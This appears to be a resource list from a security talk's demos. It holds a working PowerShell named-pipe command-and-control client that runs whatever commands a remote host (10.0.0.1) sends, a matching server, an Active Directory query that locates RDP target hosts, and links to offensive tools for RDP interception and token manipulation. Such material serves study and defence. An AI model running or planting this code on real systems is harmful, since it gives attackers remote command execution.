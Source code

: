 <b>Scripts, tools and commands shown or mentioned in the demos of this talk:</B>
<br>
Named pipes C2:

# client side

$pipe = new-object System.IO.Pipes.NamedPipeClientStream '10.0.0.1','mypipe','In'; $pipe.Connect(); $sr = new-object System.IO.StreamReader $pipe; while (($data = $sr.ReadLine()) -ne $null) { iex $data }

#$sr.Dispose(); $pipe.Dispose() 

#---------------------------------------------
# Server side

$pipe = new-object System.IO.Pipes.NamedPipeServerStream 'mypipe','Out'; $pipe.WaitForConnection(); $sw = new-object System.IO.StreamWriter $pipe; $sw.AutoFlush = $true; $sw.WriteLine("whoami")

#$sw.Dispose(); $pipe.Dispose()

<br>
Detecting targets ‘Living off the land’ (RDP hosts without NLA enforced):

([adsisearcher]'(&(serviceprincipalname=*TERMSRV*)(operatingsystem=*windows*server*200*))').FindAll()

<br>
RDP AitM:

https://github.com/SySS-Research/Seth

<br>
Track past changes in AD accounts without logs:

https://github.com/YossiSassi/AD-Replication-Metadata

<br>
Get change history for AD group memberships:

https://github.com/YossiSassi/Get-ADGroupChanges

<br>
Token duplication (one option out of many):

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
